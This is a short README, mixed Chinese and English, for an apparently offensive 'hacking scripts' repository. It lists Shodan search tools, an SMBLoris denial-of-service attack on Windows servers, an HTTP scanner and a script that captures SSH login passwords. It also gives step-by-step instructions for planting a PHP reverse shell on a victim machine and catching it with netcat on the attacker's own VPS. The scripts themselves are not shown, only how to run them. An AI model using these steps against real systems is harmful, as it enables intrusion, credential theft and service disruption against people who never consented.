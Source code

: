 ﻿# Th1s 1s a rep0 ab0ut h3cking scr1pts

# shodan

调用shodan api 统计设备数量
shodancount.py <search query>

调用shodan api 搜索设备
shodansearch.py <search query>

# SMBLoris 通过smb对Windows服务器实施DOS攻击

chmod +x run10.sh

sh run10.sh

# httpscan 一个http简易扫描脚本

httpscan.py <ip>

# dump_ssh_password

# 提取ssh密码

chmod +x ssh_password.sh

sh password.sh

然后新建一个窗口ssh登录，就可以看见ssh密码

# php-reverse-shell 一个php的反弹shell脚本

把php-reverse-shell.php中49行的地址改为自己的公网vps

上传该脚本到被攻击的机器上

登录自己的公网vps，监听1234端口

nc -lvp 1234

在被攻击的机器上执行脚本，即可在vps上看到shell

php php-reverse-shell.php

# Hope you enjoy ^_^